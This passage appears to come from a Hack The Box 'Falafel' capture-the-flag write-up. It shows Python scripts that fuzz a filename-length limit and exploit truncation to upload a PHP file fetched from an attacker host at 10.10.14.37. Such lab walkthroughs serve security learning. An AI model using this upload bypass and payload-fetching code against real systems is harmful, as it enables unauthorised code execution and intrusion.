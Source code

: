 By checking the page source, we can see that the filename was truncated by removing trailing characters beyond the length limitation.
![Screenshot](/assets/img/htb-falafel-writeup-screenshot/image_11.png)

This means that using a filename with a certain length and has a double extension (e.g. .php.jpg) will cause the trailing .jpg extension to be truncated, leaving the .php as the file extension.

To fuzz the exact length used, the following python script is used.
```python
# Fuzzing filename limit
    filename_length = 0
    filename = ""
    for i in range(0, 1000):
        filename = "A" * i
        json_upload_data['url'] = f"http://10.10.14.37:8888/{filename}.jpg"
        payload = target_upload_url + f"/?url={json_upload_data['url']}"
        r = s.get(payload)
        if ('The name is too long' in r.text):
            print(f"Filename starts to truncate at: {i}")
            filename_length = i
            break
    filename = "A" * (filename_length - 1) + ".php"
    json_upload_data['url'] = f"http://10.10.14.37:8888/{filename}.jpg"
    payload = target_upload_url + f"/?url={json_upload_data['url']}"
    r = s.get(payload)
    print(r.text)
```

It shows that the filename limit is 233 (excluding the .jpg extension).
![Screenshot](/assets/img/htb-falafel-writeup-screenshot/image_12.png)
Another script is then created to upload the payload with the very long filename
```python
def file_upload_exploit(session):

    """
    # Fuzzing filename limit
    filename_length = 0
    filename = ""
    for i in range(0, 1000):
        filename = "A" * i
        json_upload_data['url'] = f"http://10.10.14.37:8888/{filename}.jpg"
        payload = target_upload_url + f"/?url={json_upload_data['url']}"
        r = s.get(payload)
        if ('The name is too long' in r.text):
            print(f"Filename starts to truncate at: {i}")
            filename_length = i
            break
    """
    # Upload php file with long filename and double extension
    json_upload_data = {'url':''}
    filename_length = 233
    filename = "A" * (filename_length - 1) + ".php"
    json_upload_data['url'] = f"http://10.10.14.37:8888/{filename}.jpg"
    payload = target_upload_url + f"/?url={json_upload_data['url']}"
    print(f"Payload URL: {payload}")
    r = session.get(payload)

```